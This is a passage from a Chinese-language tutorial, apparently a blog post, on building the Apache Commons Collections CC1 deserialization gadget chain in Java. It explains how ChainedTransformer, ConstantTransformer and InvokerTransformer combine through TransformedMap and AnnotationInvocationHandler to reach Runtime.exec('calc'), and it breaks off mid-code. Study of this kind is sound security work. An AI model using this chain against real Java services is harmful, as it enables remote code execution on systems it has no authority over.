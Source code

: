 `Target` 中存在 `value` 成员，修改传递参数为 `Target.class`，同时修改 `map.put("value", "value")`；

```java
map.put("value", "value");
Object object = annotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);
```

此时可以满足两个 if ，但 `setValue` 的值固定是 `new AnnotationTypeMismatchExceptionProxy`；

![image-20240312114846306](https://pic.mewhz.com/blog/image-20240312114846306.png)

不过 `setValue` -> `checkSetValue` 中会调用 `valueTransformer.transform()`；

配合 `ChainedTransformer` 和 `ConstantTransformer` 类即可，`ChainedTransformer` 的作用是把内部多个 `Transformer` 的 `transformer` 方法串在一起，也就是前一个方法的结果会作为后一个方法的参数传入；

```java
// ChainedTransformer
public Object transform(Object object) {
    for (int i = 0; i < iTransformers.length; i++) {
        object = iTransformers[i].transform(object);
    }
    return object;
}
```

而 `ConstantTransformer` 的 `transformer` 会把构造方法中的参数原样返回；利用 `ConstantTransformer` 过滤掉一开始的类，把自定义的类传入 `InvokerTransformer`。

```java
// ConstantTransformer
public Object transform(Object input) {
    return iConstant;
}
```

修改代码如下：

```java
package com.mewhz.cc1;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import org.junit.Test;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class TestDemo {

    @Test
    public void test1() throws Exception {
        Runtime runtime = Runtime.getRuntime();
        // 创建 Runtime 的实例对象
        ConstantTransformer constantTransformer = new ConstantTransformer(runtime);
        // constantTransformer 会把 runtime 的实例对象原样返回；用于过滤一开始 setValue 的类
        InvokerTransformer invokerTransformer = new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"});
        // invokerTransformer 用于执行方法
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
```